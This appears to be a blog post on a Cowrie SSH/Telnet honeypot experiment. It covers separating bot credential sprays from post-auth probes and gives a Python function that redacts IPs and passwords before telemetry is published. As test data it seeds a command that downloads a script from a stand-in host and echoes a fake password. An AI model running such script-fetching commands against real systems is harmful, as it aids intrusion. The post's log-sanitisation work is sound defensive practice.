

The movie version of running an internet-facing SSH/Telnet honeypot expects quiet midnight tense standoffs with clever adversaries typing bespoke shell commands.

Reality at 02:00 UTC is loud, stupid, and remarkably predictable. Across **1,728 Cowrie SSH and Telnet sessions** from **128 unique source IPs** captured during my [Greyfield](/projects/greyfield) experiment in August–September 2026, almost every wake-up alert boils down to automated credential stuffing and canned Mirai/IoT drop-lines before a bot disconnects in seconds.


## Separating blind sprays from real post-auth staging

From the Cowrie session logs alone, you cannot reliably fingerprint whether a client was written in Go, Python, or C just by reading command transcripts—and claiming precision percentages off messy bot noise is guesswork without keeping denominators explicit. What *does* hold up cleanly under telemetry inspection is separating raw **pre-auth sprays** (TCP connects + common password pairs like `root:123456` that never execute a command) from **post-auth interactive probes** that cross into a virtual shell and leave observable [MITRE ATT&CK patterns](/projects/greyfield) across 9 mapped techniques.

In Greyfield's telemetry pipeline, every raw JSONL event flows into a strict two-artifact publication boundary so public reports never become a doxxing board or accidentally echo credential strings injected into shell commands:



## Testing the redaction boundary cleanly

The nastiest edge case in honeypot publishing isn't obvious fields like `src_ip`—it is sensitive strings **buried inside nested shell commands** (`curl http://203.0.113.9/a.sh && echo password=TopSecretAdmin99`). If you only strip top-level JSON keys, you publish raw IPs and secrets directly in the command transcript export.

Here is the minimal sanitization contract verified locally before releasing summary buckets:

```python
import hashlib, ipaddress, json, re

SECRET_RE = re.compile(r"(\d{1,3}(?:\.\d{1,3}){3}|pass(?:word)?=\S+)", re.I)

def export_greyfield_summary(events: list[dict], salt: bytes) -> list[dict]:
    out = []
    for ev in events:
        ip = ev["src_ip"]
        actor = hashlib.sha256(salt + ip.encode()).hexdigest()[:12]
        subnet = str(ipaddress.ip_network(f"{ip}/24", strict=False))
        sanitized_cmd = SECRET_RE.sub("[REDACTED]", ev.get("input", ""))
        kind = "interactive" if any(op in ev.get("input", "") for op in ("&&", "|", "wget", "curl")) else "probe"
        out.append({"actor": actor, "subnet": subnet, "kind": kind, "cmd_shape": sanitized_cmd})
    return out
```

To test that the publication boundary holds, seed a synthetic operator IP and `password=...` token inside a nested command string (`198.51.100.77` and `curl http://203.0.113.9/a.sh && echo password=TopSecretAdmin99`) and assert neither string survives in the exported artifacts:

```text
{"actor": "58970db2936e", "subnet": "198.51.100.0/24", "kind": "interactive", "cmd_shape": "curl http://[REDACTED]/a.sh && echo [REDACTED]"}
```

Good honeypot engineering isn't about dramatic midnight attribution. It is keeping the management SSH port separated on an allowlisted path, redacting noise ruthlessly, and ensuring your exported telemetry never leaks what landed inside the trap.
